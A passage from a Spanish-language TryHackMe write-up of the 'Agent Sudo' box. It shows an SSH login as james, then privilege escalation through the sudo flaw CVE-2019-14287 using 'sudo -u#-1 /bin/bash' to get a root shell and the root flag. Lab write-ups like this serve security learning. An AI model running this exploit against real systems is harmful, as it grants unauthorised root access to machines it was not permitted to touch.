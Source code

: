 Después de esto podemos loguearnos en ssh con el usuario de james.

```terminal
kali@kali:~$ ssh james@10.10.94.186
james@10.10.94.186's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Dec  3 19:16:32 UTC 2020

  System load:  0.0               Processes:           94
  Usage of /:   39.7% of 9.78GB   Users logged in:     0
  Memory usage: 33%               IP address for eth0: 10.10.94.186
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls -a
.  ..  Alien_autospy.jpg  .bash_history  .bash_logout  .bashrc  .cache  .gnupg  .profile  .sudo_as_admin_successful  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt
********************************
```

Ya tenemos user.txt

## Escalación de privilegios

Si hacemos sudo -l podemos darnos cuenta de un fallo.
```terminal
james@agent-sudo:~$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Se trata del CVE-2019-14287. Sudo no verifica la existencia de la identificación de usuario especificada y ejecuta la identificación de usuario arbitraria con el sudo priv -u # -1 devuelve 0, que es la identificación de root y / bin / bash se ejecuta con permiso de root.

Para explotarlo ejecutamos: sudo -u#-1 /bin/bash,y obtenemos root.txt

```terminal
root@agent-sudo:/# cd root/ && cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
********************************

By,
DesKel a.k.a Agent R

```